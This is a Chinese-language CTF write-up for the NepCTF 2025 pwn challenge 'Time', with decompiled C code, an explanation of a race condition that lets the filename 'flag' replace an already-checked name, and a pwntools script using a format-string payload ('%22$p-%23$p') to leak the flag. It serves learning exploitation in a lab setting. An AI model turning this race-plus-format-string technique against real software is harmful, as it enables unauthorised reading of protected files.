 ```yaml
---
title: "Write-ups: NepCTF 2025"
published: 2025-09-20
updated: 2025-09-20
description: "Write-ups for NepCTF 2025 pwn aspect."
tags: ["Pwn", "Write-ups"]
category: "Write-ups"
draft: false
---
```


# Time

## Information

- Category: Pwn
- Points: Unknown

## Description

> Unknown

## Write-up

当时直接被别的 pwn 题吓跑了，感觉一道也做不出来……今天来复现一下这道 race condition 的题。没看 wp 自己做出来了，草啊，为啥当时不去试试别的题呢？

其实我没学过 race condition，但是因为看过 CSAPP，所以也知道个大概 ba，下面写一下思路。

```c
void __fastcall __noreturn main(int a1, char **a2, char **a3)
{
  pthread_t newthread[2]; // [rsp+0h] [rbp-10h] BYREF

  newthread[1] = __readfsqword(0x28u);
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  get_name();
  while ( 1 )
  {
    while ( !(unsigned int)get_filename() )
      ;
    pthread_create(newthread, 0, (void *(*)(void *))start_routine, 0);
  }
}
```

首先是这个 `get_name` 函数，里面先获取了用户名，保存到 bss 中的 `format_0`。然后 fork 出来一个子进程，执行 `/bin/ls / -al`，并在回收子进程后返回到 main 。

```c
unsigned __int64 get_name()
{
  char *argv[5]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v2; // [rsp+38h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("please input your name:");
  __isoc99_scanf("%100s", format_0);
  puts("I will tell you all file names in the current directory!");
  argv[0] = "/bin/ls";
  argv[1] = "/";
  argv[2] = "-al";
  argv[3] = 0;
  if ( !fork() )
    execve("/bin/ls", argv, 0);
  wait(0);
  puts("good luck :-)");
  return v2 - __readfsqword(0x28u);
}
```

返回后进入 main 中的无限循环，先调用了 `get_filename` 函数，读取到的文件名保存在 bss 中的 `file` 这个位置，然后判断输入的文件名是否为 flag，如果是 flag 就返回 0，接着返回到 main 重新运行这个函数。所以为了让它继续往下执行，我们这里不能直接输入 flag 。

```c
__int64 get_filename()
{
  puts("input file name you want to read:");
  __isoc99_scanf("%s", file);
  if ( !strstr(file, "flag") )
    return 1;
  puts("flag is not allowed!");
  return 0;
}
```

往下看，有个创建子线程的 `pthread_create` 调用，它会创建一个子线程执行 `start_routine`。根据运行测试 plus 逻辑分析，我们知道这个函数中调用的其它不知名功能应该就是用来计算 md5 的。细节我们不去管它，直接看宏观逻辑的话，应该是计算好 md5 后逐字节输出，然后清空 buf 用于保存后面 open 打开的文件的内容。之后有个格式化字符串漏洞，使用的格式化字符串是我们一开始在 get_name 中输入的内容。

```c
unsigned __int64 __fastcall start_routine(void *a1)
{
  unsigned int n; // eax
  int i; // [rsp+4h] [rbp-46Ch]
  int j; // [rsp+8h] [rbp-468h]
  int fd; // [rsp+Ch] [rbp-464h]
  _DWORD v6[24]; // [rsp+10h] [rbp-460h] BYREF
  _BYTE v7[16]; // [rsp+70h] [rbp-400h] BYREF
  _BYTE buf[1000]; // [rsp+80h] [rbp-3F0h] BYREF
  unsigned __int64 v9; // [rsp+468h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  sub_1329(v6);
  n = strlen(file);
  sub_1379(v6, file, n);
  sub_14CB(v6, (__int64)v7);
  puts("I will tell you last file name content in md5:");
  for ( i = 0; i <= 15; ++i )
    printf("%02X", (unsigned __int8)v7[i]);
  putchar(0xA);
  for ( j = 0; j <= 999; ++j )
    buf[j] = 0;
  fd = open(file, 0);
  if ( fd >= 0 )
  {
    read(fd, buf, 0x3E8u);
    close(fd);
    printf("hello ");
    printf(format_0);
    puts(" ,your file read done!");
  }
  else
  {
    puts("file not found!");
  }
  return v9 - __readfsqword(0x28u);
}
```

这题的思路就是，首先让它获取一个非 flag 的文件名，如此我们才能够创建子线程调用 `start_routine`。而解题的关键在于这里执行子进程和执行父进程之间存在一个 race condition 。

由于程序是并发执行的，运行一段时间主线程就会运行一段时间子线程，而主线程和子线程到底是哪个先运行，这是无法预测的。可能先跑子线程，跑完跑主线程，也可能先跑主线程，然后跑子线程……假设我们就是先跑了主线程，那我们就又回到了 `get_filename`，我们就可以输入 `flag`，覆盖原先为了创建子线程而使用的其它文件名，而由于输入是直接用 scanf 写到 bss 的，所以后面那个检测是不是 flag 的判断我们可以直接忽视。这样一来，我们再去执行子线程的时候 open 打开的就是 flag 了。

那我们怎么知道它一定会先跑一会儿主线程呢？这涉及了一些更底层的知识，我个人的理解是，由于现代计算机中的程序都是并发运行的，而每个线程都有一个固定的很短的执行周期，一旦这个执行周期耗尽，就会切换到另一个进程去执行，然后切换回来，继续执行刚才被切走的线程，如此反复……由于子线程中计算 md5 的时候调用的函数会占用大量的时钟周期，所以说如果我们现在在执行子线程，那在需要如此多时钟周期 + 如此短的并发周期内，它肯定不可能完成子线程的执行，也就是说必然会中途暂停了去执行主线程。那自然就可以推导出我们必然可以覆盖文件名的内容，让子线程打开我们想要打开的文件……

OK，现在我们知道怎么把 flag 读到内存中了，结合后面那个格式化字符串漏洞，我们就可以泄漏出内存中的 flag，非常简单。没想到我的第一道 race condition challenge 就这样挑战成功了。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    flat,
    process,
    raw_input,
    remote,
)


FILE = "./patched"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    payload = flat(
        b"%22$p-%23$p",
    )
    raw_input("DEBUG")
    target.sendlineafter(b"name:", payload)
    target.sendline(b"aaaa")
    target.sendline(b"flag")
    target.recvuntil(b"hello ")

    resp = target.recvuntil(b" ,").split(b"-")
    flag_p1 = bytes.fromhex(resp[0].decode()[2:])[::-1].decode()
    flag_p2 = bytes.fromhex("0" + resp[1].decode()[2:-2])[::-1].decode()
    flag = flag_p1 + flag_p2
    target.success(flag)

    target.interactive()


if __name__ == "__main__":
    main()
```
